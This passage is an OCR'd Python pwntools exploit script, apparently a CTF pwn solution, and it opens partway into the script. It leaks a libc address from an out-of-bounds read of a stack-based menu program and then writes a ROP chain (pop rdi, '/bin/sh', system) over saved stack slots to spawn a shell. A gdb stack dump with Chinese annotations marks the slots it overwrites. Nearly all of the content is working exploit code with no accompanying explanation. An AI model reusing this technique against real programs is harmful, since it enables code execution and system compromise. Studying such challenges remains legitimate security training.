 ```python
    io.sendlineafter(b'choice: ', b'2')
    io.sendlineafter(b'push', str(num).encode())

def pop():
    io.sendlineafter(b'choice: ', b'3')

def show():
    io.sendlineafter(b'choice: ', b'4')

def edit(idx,num):
    io.sendlineafter(b'choice: ', b'1')
    io.sendlineafter(b'edit', str(idx).encode())
    io.sendlineafter(b'new', str(num).encode())

def int32(num):
    return ctypes.c_int32(num).value  # 匹配输入类型

# 00:0000│  0x7ffdfb061d60 ◂— 0x1e0000001e
# ... ↓     2 skipped
# 03:0018│  0x7ffdfb061d78 ◂— 0x1e 【控制位】
# 04:0020│  0x7ffdfb061d80 ◂— 0
# 05:0028│  0x7ffdfb061d88 ◂— 0x847fbc4547dee900
# 06:0030│  0x7ffdfb061d90 —▸ 0x7f21d0edd340 —▸ 0x7f21d0d387c0 ◂— endbr64
# 07:0038│  0x7ffdfb061d98 —▸ 0x7ffdfb061eb8 —▸ 0x7ffdfb063369 ◂— 0x432f662f746e6d2f ('/mnt/f/C')
# 08:0040│  0x7ffdfb061da0 ◂— 1
# 09:0048│  0x7ffdfb061da8 —▸ 0x7f21d0a8fd68 ◂— mov edi, eax 【off 18&19】
# 0a:0050│  0x7ffdfb061db0 ◂— 0x2e78786362696c67 ('glibcxx.') 【off 20&21】
# 0b:0058│  0x7ffdfb061db8 —▸ 0x559d30959329 ◂— endbr64 【off 22&23】
# 0c:0060│  0x7ffdfb061dc0 ◂— 0x1d0eeaf60 【off 24&25】

for i in range (7):
    push(30)

show()
io.recvuntil(b'1 0 ')
libc_leak_1 = int(io.recvuntil(b' ')[:-1])
sleep(0.5)
libc_leak_2 = int(io.recvuntil(b' ')[:-1]) + 1 # 根据动调进行了调整
libc_leak = libc_leak_1 + (libc_leak_2 << 32) 
libc.address = libc_leak - (0x7f38707c3d90 - 0x7f387079a000)
print(hex(libc.address))

pop_rdi = libc.address + 0x2a3e5
retn = pop_rdi + 1
binsh_addr = libc.search(b"/bin/sh").__next__()
system_addr = libc.sym['system']

print(hex(pop_rdi>>32), hex(pop_rdi&0xffffffff))

for i in range (18,25):
    edit(i, 0)

edit(18, int32(pop_rdi & 0x00000000ffffffff))
edit(19, int32(pop_rdi >> 32))
edit(20, int32(binsh_addr & 0x00000000ffffffff))
edit(21, int32(binsh_addr >> 32))
edit(22, int32(retn & 0x00000000ffffffff))
edit(23, int32(retn >> 32))
edit(24, int32(system_addr & 0x00000000ffffffff))
edit(25, int32(system_addr >> 32))

############################################

```